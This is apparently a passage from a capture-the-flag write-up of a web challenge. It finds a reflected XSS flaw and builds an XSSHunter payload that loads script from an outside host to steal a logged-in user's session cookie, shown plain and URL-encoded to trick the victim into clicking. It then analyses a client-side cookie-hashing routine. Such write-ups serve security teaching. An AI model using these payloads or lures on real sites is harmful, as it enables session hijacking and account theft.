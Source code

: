 ![Map error message]({% link /resources/ists15/34.PNG %})

That looks like user input being reflected back on the page! Perhaps this is vulnerable to XSS?

![XSS payload works]({% link /resources/ists15/35.PNG %})

Looks like it is! But what value does XSS have to us? We're trying to attack the server, not a user, right?

Let's revisit what we know so far. Girugamesh asked us for a link to the challenge website, and he's currently logged in... maybe we can leverage the XSS to steal his cookie and access the web app!

To help us accomplish this, we can use [XSSHunter](https://xsshunter.com/) to generate a payload that will report a ton of information back to us whenever the XSS fires, including the victim's cookies. Our new XSSHunter payload is:

`http://192.168.132.145/?<script src=https://dave.xss.ht></script>`

Let's send that over to Girugamesh!

![Looks like he doesn't like it]({% link /resources/ists15/36.PNG %})

Hmm... looks like he knows something's fishy here. We'll need to find a way to make the link less suspicious so Girugamesh will click it. He said something about the ID having words... maybe we can URL-encode it to get rid of them? After URL-encoding, our new payload is:

`http://192.168.132.145/?%3c%73%63%72%69%70%74%20%73%72%63%3d%68%74%74%70%73%3a%2f%2f%64%61%76%65%2e%78%73%73%2e%68%74%3e%3c%2f%73%63%72%69%70%74%3e`

Girugamesh happily clicks our link now, and the XSS payload fires! We can use the generated XSSHunter report to view information gathered from the attack, including his session cookie.

![He clicked it!]({% link /resources/ists15/37.PNG %})

Our XSSHunter report reveals a cookie named `flag` with a value of `... ..-. ..- --.. ..- - ...- -- ... - -. --.. ..- ..-. .-. .--- ..- -.-- -.-- ..- -.- .--.`. Is that... Morse code? Whatever, let's load it into our browser and see what the logged-in version of the page looks like.

![Welcome!]({% link /resources/ists15/38.PNG %})

All we get is a welcome message and a cheeky YouTube video. Perhaps the flag is within the Morse code itself? Running the cookie through a Morse code translator reveals the string `SFUZUTVMSTNZUFRJUYYUKP`, but this value is rejected when we try to enter it as a flag. There must be something else going on here!

Remember our login page? Maybe there's something there that can indicate how our cookie is generated. Taking a look at the login page source reveals an algorithm for generating the cookie client-side, which replaces our password and is sent to the server.

```javascript
function hash_password(pwField) {
	hash = pwField.value.toLowerCase().split('');

	caesarian_shift(hash, 13);
	rotate_right(hash, 37);
	swap_chars(hash, 'g', 'i');
	swap_chars(hash, 'r', 'u');
	swap_chars(hash, 'g', 'a');
	swap_chars(hash, 'm', 'e');
	swap_chars(hash, 's', 'h');
	hash = morse_code(hash);

	pwField.value = hash.join(' ').replace(/ +/g, ' ');
}
````
